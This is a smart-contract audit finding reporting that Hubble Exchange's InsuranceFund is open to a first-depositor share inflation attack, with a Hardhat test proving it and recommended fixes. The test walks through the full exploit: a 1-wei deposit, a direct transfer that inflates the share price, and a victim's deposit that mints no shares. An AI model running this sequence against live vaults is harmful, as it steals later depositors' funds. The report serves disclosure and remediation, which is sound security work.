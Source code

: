 p12473

high

# InsuranceFund is still vulnerable to share inflation attack

## Summary

Although [reported previously in a Code4rena audit](https://github.com/code-423n4/2022-02-hubble-findings/issues/42), the InsuranceFund is still vulnerable to a share inflation attack.

## Vulnerability Detail

This is your typical first share inflation attack. The first depositor into the InsuranceFund will deposit 1 wei to mint 1 wei of shares. Subsequently the depositor will deposit directly into the InsuranceFund to inflate the value of that first share. When other users want to deposit into the InsuranceFund, they will not receive any share in return if the amount that they are depositing is less than the value of the first share. 

Copy the following test into the InsuranceFund.js test.

```solidity
describe('Insurance Fund Share Inflation Test', function() {
    before('factories', async function() {
        signers = await ethers.getSigners()
        alice = signers[0].address
        ;([ bob, charlie, mockMarginAccount, admin ] = signers.slice(10))
        ;({ marginAccount, vusd, oracle, clearingHouse, insuranceFund, marginAccountHelper } = await setupContracts())
        await vusd.grantRole(await vusd.MINTER_ROLE(), admin.address)
    })

    it('Share Inflation attack', async function() {
        initialBalance = _1e6.mul(1000)                     // Insurance fund and Bob has 1000 VUSD initially
        aliceInitialBalance = _1e6.mul(1000_000)            // Alice (malicious) has 1000_000 VUSD initially
        
        // Mint initial balances
        await vusd.connect(admin).mint(insuranceFund.address, initialBalance)
        await vusd.connect(admin).mint(alice, aliceInitialBalance)
        await vusd.connect(admin).mint(bob.address, initialBalance)

        // Approve fund to transfer VUSD
        await vusd.approve(insuranceFund.address, aliceInitialBalance)
        await vusd.connect(bob).approve(insuranceFund.address, initialBalance)

        // 1. Remove fees accumulated when there is no lP
        await insuranceFund.deposit(0);
        expect(await vusd.balanceOf(insuranceFund.address)).to.eq(0)
        expect(await insuranceFund.pricePerShare()).to.eq(_1e6)
        expect(await insuranceFund.totalSupply()).to.eq(0)

        // 2. Deposit 1 share
        await insuranceFund.deposit(1);
        expect(await vusd.balanceOf(insuranceFund.address)).to.eq(1)
        expect(await insuranceFund.pricePerShare()).to.eq(_1e6)
        expect(await insuranceFund.totalSupply()).to.eq(1)

        // 3. Inflate pool
        await vusd.transfer(insuranceFund.address, aliceInitialBalance.sub(1));
        expect(await insuranceFund.totalSupply()).to.eq(1)
        expect(await insuranceFund.pricePerShare()).to.eq(_1e18)                        // 1 wei of share is now worth 1e12 so one full share is worth 1e18

        // 4. Victim tries to deposit
        await insuranceFund.connect(bob).deposit(initialBalance);                       // Bob tries to deposit 1k VUSD
        console.log(await insuranceFund.pricePerShare());
        expect(await insuranceFund.pricePerShare()).to.eq(_1e18.add(_1e18.div(1000)))   // 1 wei of share is now worth 1m VUSD (1e12) + 1k VUSD (1e9) so one full share is worth 1e18 + 1e15
        expect(await insuranceFund.totalSupply()).to.eq(1)                              // No new shares minted
        expect(await vusd.balanceOf(bob.address)).to.eq(0)                              // Bob's balance is 0
    })

})
```

Run the test with `npx hardhat test ./test/unit/InsuranceFund.js`

## Impact

Future depositors will be priced out and have their deposits indirectly “stolen” by the first depositor. 

## Code Snippet

https://github.com/hubble-exchange/hubble-protocol/blob/d89714101dd3494b132a3e3f9fed9aca4e19aef6/contracts/InsuranceFund.sol#L89-L111

## Tool used

Manual Review

## Recommendation

There are many suggestions [here](https://github.com/OpenZeppelin/openzeppelin-contracts/issues/3706) but IMO, I think the best solution is to
1. require that the amount of shares minted cannot be 0 (this prevents users from losing their deposits) 
2. manually track all assets deposited into the InsuranceFund instead of relying on balanceOf (this prevents the inflation of the first share because direct transfers of assets into the InsuranceFund do not count towards the value of the share. Also ensure that the fees for the LP are tracked properly). 